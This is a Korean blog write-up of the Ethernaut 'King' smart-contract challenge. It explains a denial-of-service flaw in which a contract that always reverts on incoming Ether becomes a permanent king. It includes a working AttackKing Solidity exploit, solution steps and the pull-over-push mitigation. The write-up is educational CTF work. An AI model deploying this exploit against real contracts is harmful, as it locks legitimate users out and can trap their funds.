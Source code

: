 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 9) King
date: '2022-01-13 14:18:00'
author: 한성원
tags: ethernaut King vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 게임을 break 하기
- 즉 내가 왕이되고 누구도 왕이 될 수 없게 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract King {
    // address of king
    address payable king;
    // 
    uint public prize;
    // contract의 owner
    address payable public owner;

    // contructor
    constructor() public payable {
        // set deployer as owner
        owner = msg.sender;  
        // set deployer as king
        king = msg.sender;
        // set prize as msg.value <- deployer's value
        prize = msg.value;
    }

    // receive function to get Ether
    receive() external payable {
        // msg.value가 현재 prize 보다 크거나, msg.sender가 owner이면 진행
        require(msg.value >= prize || msg.sender == owner);
        // king에게 msg.value를 보낸다.
        king.transfer(msg.value);
        // king을 msg.sender로 변경
        king = msg.sender;
        // prize를 msg.value로 변경
        prize = msg.value;
    }

    // 누가 king인지 볼 수 있는 함수
    function _king() public view returns (address payable) {
        return king;
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Force는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 이 게임을 break하는 것이다. 즉 누구도 게임을 할 수 없게 만들면 된다.

위 코드는 내가 전에 공부했던 King of Ether이라는 contract와 비슷하다. 그렇기 때문에 조금 쉽게 해결 할 수 있었다. unexpected revert가 무엇인지 궁금하다면 아래 post를 클릭해 먼저 보고오자!
- [DOS with Unexpected Revert](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)

이 문제에서 중요하게 봐야할 점은 .transfer이다. 우리는 transfer을 사용해 Ether를 보낼 수 있다. 근데 만약 EOA가 아닌 CA에게 Ether를 보내는 것이라면 어떨까? 

CA는 receive함수를 설정하여 Ether를 받지 않고 revert 시킬 수 있다. 즉 만약 CA가 king이 되고 Ether를 받지 못하게 설정한다면 이제 누구도 게임을 진행 할 수 없게된다.

attackKing contract를 한번 보며 더 이해해보자!

```solidity
contract AttackKing {

    constructor() public payable {}
    
    // King을 attack하는 function
    function attackKing(address payable _king) public payable {
        // send a transaction to King contract
        _king.call{value: msg.value}("");
    }

    // revert when ether comes in or when no name function was called
    fallback() external {
        revert();
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다.

우리가 King contract에서 공격할 수 있는 부분은 receive() function 밖에 없다. receive의 require 부분을 보면 prize보다 크거나 msg.sender가 owner이어야 한다. 우리는 owner가 될 수 없으니 prize보다 더 큰 값을 보내면 된다. 

우선 console 창에서 공격에 필요한 정보를 얻어보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// fromWei를 사용해 현재 prize의 값을 가져온다.
web3.utils.fromWei(await contract.prize()) // 0.001 Ether
```
remix로 돌아와서 0.001 Ether 보다 큰 값을 attackKing contract에 보낸다. 그럼 contract의 address가 King이 되어있을 것이다. 그리고 다른 account를 생성해 transaction을 보내본다면 revert 되는 것을 확인 할 수 있다. 아래 그림은 transaction을 보낸 후 etherscan에서 확인한 사진이다.
![transaction_reverted_ethernaut_King](transaction_reverted_ethernaut_King.png)

이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

## Troubleshooting
나는 중간에 Gas Limit을 초과해 transcation이 계속해서 revert되는 것을 확인했다. 처음에는 무엇 때문인지 몰랐지만 etherscan에서 transaction을 확인한 후 알 수 있었다.
![gas_limit_failed-1](gas_limit_failed-1.png)
![gas_limit_failed-2](gas_limit_failed-2.png)

이후 transaction을 보낼때 gas limit을 높혀주니 transactino이 정상적으로 진행되었다.

## 마무리
전에 다뤘던 [DOS With Unexpected Revert 취약점](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)과 비슷했다. 위 게시글에서도 말했듯이 이 부분은 pull over push를 사용하여 문제를 해결 할 수 있다. ethernaut 시리즈가 끝나고 pull over push와 같은 방법론들도 다뤄보도록 하겠다!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DOS With Unexpected Revert 취약점: https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/

```toc

```
